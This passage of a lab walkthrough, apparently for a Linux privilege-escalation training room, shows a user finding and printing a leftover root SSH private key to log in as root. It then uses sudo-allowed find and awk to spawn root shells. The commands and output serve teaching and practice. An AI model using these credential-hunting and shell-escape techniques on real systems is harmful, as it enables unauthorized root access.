 ```console
TCM@debian:~$ find / -name authorized_keys 2> /dev/null
TCM@debian:~$ find / -name id_rsa 2> /dev/null
/backups/supersecretkeys/id_rsa
TCM@debian:~$ cat /backups/supersecretkeys/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
[...]
STOMIZSSBDSfkAAAAJcm9vdEBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----
```
{: .nolineno }

Copied this to the Kali machine and trying to connect :

```console
root@ip-10-10-9-130:~/Desktop# chmod 400 id_rsa 
root@ip-10-10-9-130:~/Desktop# ssh -i id_rsa root@10.10.3.74
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 17 23:31:40 2020 from 192.168.4.51
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:~# 
```
{: .nolineno }

Answer : /backups/supersecretkeys/id_rsa

## TASK 8 : Privilege Escalation - Sudo (Shell Escaping)
### Click 'Completed' once you have successfully elevated the machine 
Many ways here :

```console
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
TCM@debian:~$ sudo find /bin -name nano -exec /bin/sh \;
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# exit
exit
TCM@debian:~$ sudo awk 'BEGIN{system("/bin/sh")}'
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
```